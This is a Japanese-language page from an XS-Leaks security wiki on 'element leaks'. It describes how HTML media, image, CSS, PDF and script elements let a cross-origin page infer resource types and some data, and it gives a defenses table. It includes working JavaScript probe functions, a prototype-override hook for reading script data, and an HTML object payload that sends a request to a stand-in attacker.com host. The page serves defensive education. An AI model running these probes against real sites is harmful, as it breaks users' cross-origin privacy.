 +++
title = "Element leaks"
description = ""
category = "Attack"
abuse = [
    "HTMLElement",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

一部のHTML要素は、クロスオリジンのページにデータの一部をリークさせるために使用される可能性があります。 
たとえば、以下のようなメディアリソースは、サイズ、期間、種類に関する情報をリークさせる可能性があります。

- [HTMLMediaElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLMediaElement)は、メディアの`duration`と`buffered`の時間をリークします。
- [HTMLVideoElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLVideoElement) は`videoHeight`と`videoWidth`をリークします。一部のブラウザでは、`webkitVideoDecodedByteCount`、 `webkitAudioDecodedByteCount`、`webkitDecodedFrameCount`も含む可能性があります
- [getVideoPlaybackQuality()](https://developer.mozilla.org/en-US/docs/Web/API/VideoPlaybackQuality)は`totalVideoFrames`をリークします。
- [HTMLImageElement]（https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement）は`height`と`width`をリークしますが、画像が無効な場合には、それらは0となり、[`image.decode()`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/decode)は拒否されます。

メディアタイプの固有のプロパティによって、メディアタイプを区別することができます。
たとえば、`<video>`の場合は`videoWidth`、`<audio>`の場合は`duration`といった具合です。 
以下のコードは、リソースの種類を返すサンプルコードを示しています。

```javascript
async function getType(url) {
    // リソースがaudioもしくはvideoかどうかを検知
    let media = document.createElement("video");
    media.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (media.videoWidth) {
    return "video";
    } else if (media.duration) {
    return "audio"
    }
    // リソースがimageかどうかを検知
    let image = new Image();
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## CORBの悪用

[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) は、間違ったコンテンツタイプが使用された場合にレスポンスを空にするChromeの機能です。
これは、コンテンツタイプが間違っている場合、キャッシュされないことを意味します。
 `ifCached` 関数については[Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}})の記事にて確認できます。

```javascript
async function isType(url, type = "script") {
  let error = false;
  // urlをパージする
  await ifCached(url, true);
  // リソースの読み込みを試行
  let e = document.createElement(type);
  e.onerror = () => error = true;
  e.src = url;
  document.head.appendChild(e);
  // CORBで許可されていれば、キャッシュされるのを待つ
  await new Promise(resolve => setTimeout(resolve, 500));
  // クリーンアップ
  document.head.removeChild(e);
  // ブロックされた"images"の修正
  if (error) return false
  return ifCached(url);
}
```

[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle)は、現在のページに埋め込まれたCSSスタイルシートを読み取るために使用することができます。
これは異なるオリジンから読み込まれたものも含みます。
この関数は、ボディに適用されたスタイルがあるかどうかをチェックするだけのものです。

```javascript
async function isCSS(url) {
    let link = document.createElement('link');
    link.rel = 'stylesheet';
    link.type = 'text/css';
    link.href = url;
    let style1 = JSON.stringify(getComputedStyle(document.body));
    document.head.appendChild(link);
    await new Promise(resolve => setTimeout(resolve, 500));
    let style2 = JSON.stringify(getComputedStyle(document.body));
    document.head.removeChild(link);
    return (style1 !== style2);
}
```

## PDF
 [Open URL Parameters](https://bugs.chromium.org/p/chromium/issues/detail?id=64309#c113)には、`zoom`, `view`, `page`, `toolbar` などのコンテンツを制御することができるものが用意されています。 
chromeの場合、内部で`embed`を使用しているため、[frame counting]({{< ref "/docs/attacks/frame-counting.md" >}})でPDFを検出することが可能です。

```javascript
async function isPDF(url) {
    let w = open(url);
    await new Promise(resolve => setTimeout(resolve, 500));
    let result = (w.length === 1);
    w.close();
    return result;
}
```

{{< hint warning  >}} } ページに他の埋め込みがある場合、誤検知が発生します。 {{< /hint >}}

## スクリプトタグ
クロスオリジンのスクリプトがページに含まれる場合、その内容を直接読み取ることはできません。
しかし、スクリプトが組み込み関数を使用している場合には、関数を上書きすることでその引数を読むことができるため、機密情報をリークする可能性があります[^script-leaks]。

```javascript
let hook = window.Array.prototype.push;
window.Array.prototype.push = function() {
    console.log(this);
    return hook.apply(this, arguments);
}
```

## Javascriptが使用できない場合

JavaScriptが無効な場合でも、クロスオリジンのリソースに関するいくつかの情報が漏えいする可能性があります。
例えば、`<object>` を利用して、リソースがエラーコードで応答するかどうかを検出することができます。
リソース`//example.org/resource`が`<object data=//example.org/resource>fallback</object>`でエラーを返した場合、`fallback`がレンダリングされます[^fallback] [^leaky-images]。
内部に別の`<object>`を挿入して情報を外部サーバにリークしたり、CSS[^xsleaks-nojs]で検出したりすることができます。
以下のコードは `//example.org/404` を埋め込み、それが *Error* で応答した場合、 フォールバックとして`//attacker.com/?error` へのリクエストも行われます。

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

## 対策

| Attack Alternative | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :----------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
| Type leaks |                                         ✔️                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |

## 参考文献
[^script-leaks]: The Unexpected Dangers of Dynamic JavaScript. [link](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)   
[^fallback]: HTML Standard, [3.2.5.2.6 Embedded content], [link](https://html.spec.whatwg.org/multipage/dom.html#fallback-content)  
[^leaky-images]: Leaky Images: Targeted Privacy Attacks in the Web, [3.4 Linking User Identities], [link](https://www.usenix.org/system/files/sec19fall_staicu_prepub.pdf)  
[^xsleaks-nojs]: [https://twitter.com/terjanq/status/1180477124861407234](https://twitter.com/terjanq/status/1180477124861407234)  